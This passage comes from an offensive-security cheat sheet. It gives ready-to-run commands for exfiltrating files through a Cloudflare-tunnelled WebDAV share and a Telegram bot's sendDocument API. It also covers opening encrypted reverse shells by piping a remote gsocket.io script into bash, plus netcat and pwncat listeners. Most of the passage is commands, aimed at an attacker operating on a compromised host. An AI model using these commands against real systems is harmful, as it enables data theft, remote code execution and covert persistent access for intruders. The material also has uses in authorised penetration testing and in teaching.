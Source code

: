 Access the share from Windows (to drag & drop files) in File Explorer:
```
\\example-foo-bar-lights.trycloudflare.com@SSL\sources
```

Or mount the WebDAV share on Windows (Z:/):
```
net use * \\example-foo-bar-lights.trycloudflare.com@SSL\sources
```

---
<a id="tg"></a>
### 4.x. File transfer to Telegram

There are [zillions of upload services](#cloudexfil) but TG is a neat alternative. Get a _TG-Bot-Token_ from the [TG BotFather](https://www.siteguarding.com/en/how-to-get-telegram-bot-api-token). Then create a new TG group and add your bot to the group. Retrieve the _chat_id_ of that group:
```sh
curl -s "https://api.telegram.org/bot<TG-BOT-TOKEN>/getUpdates" | jq -r '.result[].message.chat.id' | uniq
# If you get only {"ok":true,"result":[]} then remove and add the bot again.
```

```sh
# Upload file.zip straight into the group chat:
curl -sF document=@file.zip "https://api.telegram.org/bot<TG-BOT-TOKEN>/sendDocument?chat_id=<TG-CHAT-ID>"
```

---
<a id="reverse-shell"></a>
## 5. Reverse Shell / Dumb Shell
<a id="reverse-shell-gs-netcat"></a>
**5.i.a. Reverse shell with gs-netcat (encrypted)**

Use [gsocket deploy](https://gsocket.io/deploy). It spawns a fully functioning PTY reverse shell. Both, the YOU and the remote system, can be behind NAT and the traffic is routed via a relay network. It also supports file upload/download (Ctrl-e c) and alarms when the admin logs in. If netcat is a swiss army knife than gs-netcat is a german battle axe :>

```sh
X=ExampleSecretChangeMe bash -c "$(curl -fsSL https://gsocket.io/y)"
# or X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- https://gsocket.io/y)"
```

To connect to the shell from your workstation:
```sh
S=ExampleSecretChangeMe bash -c "$(curl -fsSL https://gsocket.io/y)"
# or gs-netcat -s ExampleSecretChangeMe -i
# Add -T to tunnel through TOR
```

<a id="reverse-shell-bash"></a>
**5.i.b. Reverse shell with Bash**

Start netcat to listen on port 1524 on your system:
```sh
nc -nvlp 1524
```
After connection, [upgrade](#reverse-shell-interactive) your shell to a fully interactive PTY shell. Alternatively use [pwncat-cs](https://pwncat.org/) instead of netcat:
```sh
pwncat -lp 1524
# Press "Ctrl-C" if pwncat gets stuck at "registerd new host ...".
# Then type "back" to get the prompt of the remote shell.
```
